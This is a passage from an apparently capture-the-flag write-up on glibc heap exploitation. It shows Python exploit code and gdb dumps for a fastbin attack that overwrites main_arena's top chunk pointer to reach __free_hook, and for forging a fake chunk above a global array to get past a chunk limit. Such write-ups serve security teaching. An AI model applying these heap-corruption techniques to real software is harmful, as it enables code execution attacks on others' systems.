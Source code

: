 Next, we simply do the fastbin attack again to get a chunk in `main_arena`. Using gdb, the offset can be found by trial and error, and then you can overwrite the top chunk pointer to `__free_hook - 0x1100 + 0x70 - 0x5`. Ensure to not put anything but NULL bytes inside `main_arena` before the top chunk pointer. Any other bytes will be treated as an address existing in a fastbin, which corrupts the fastbin and will for sure later crash your program.
```python
# We set our fake chunk's fd pointer to point to our fake chunk in main arena
reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_top) + p64(0))

# Chunk 9 will be in main arena, we overwrite it with free_hook-0x1100+0x70-0x5
# If you look at that address-0x10, it looks like the top chunk header
# So we set the top chunk pointer to that address (free_hook-0x1100+0x70-0x5)
add(0x50, 'B'*0x50) # 8
add(0x50, '\x00'*0x3e + p64(free_hook - 0x1100 + 0x70 - 0x5)) # 9

# Now the next chunk was a test to see if it worked
# This chunk should be placed at free_hook-0x1100+0x70-0x5
add(0x58, 'A'*8) # 10
```
```c
// __free_hook = 0x7fb3d8f0a7a8
gef➤  x/10gx 0x7fb3d8f0a7a8 - 0x1100 + 0x70 - 0x5 - 0x10
0x7fb3d8f09703 <stderr+3>:      0xf0962000007fb3d8      0xf088e000007fb3d8 <-.
0x7fb3d8f09713 <stdin+3>:       0xb64b7000007fb3d8      0x0000000000000061   |
0x7fb3d8f09723: 0x4141414141414141      0x0000000000000000   ^   looks like top chunk
0x7fb3d8f09733: 0x0000000000000000      0x0000000000000000   |
0x7fb3d8f09743: 0x0000000000000000      0x0000000000000000 theres our new chunk header
```

Now we take a quick detour. I realized that the number of chunks we'd need to allocate was way over 19, which is what the program limits us to. However, I realized it was very easy to forge a fake chunk right above the global array of chunks, and then get a chunk there using a fastbin attack in order to overwrite a bunch of indexes of that array with NULL. Having PIE disabled makes this very easy.
```python
# Next, my plan was to do enough mallocs so we can reach free_hook from free_hook-0x1100 ...
# The program however has a limit of 19 chunks
# I bypass it by getting a chunk right above the global array of chunks
# I then zero out the first 11 indexes of that array

# Address of the fake chunk above the array
fake_chunk_above_array = 0x602130

# Change the name so that it places a fake chunk header right at that address from above
reintroduce(p64(0) + p64(0x61) + p64(0)*11 + p64(0x21) + p64(0)*17 + p64(0x61))

# Free the fake_chunk at the name
free(6)

# Overwrite its fd with the address of our fake chunk above the global array
reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_above_array))

# Chunk 12 will be above the global array, zero out a bunch of indexes
add(0x58, 'A'*0x58) # 11
add(0x58, p64(0)*11) # 12, Free up indexes 0-10

# Now there is a reference to fake_chunk (at our name variable) at idx 11
# This can easily be verified by viewing the array in gdb
```
```c
gef➤  x/100gx 0x602040
0x602040:       0x0000000000000000      0x0000000000000061 <- name variable
0x602050:       0x4141414141414141      0x4141414141414141
...
0x602090:       0x4141414141414141      0x4141414141414141
```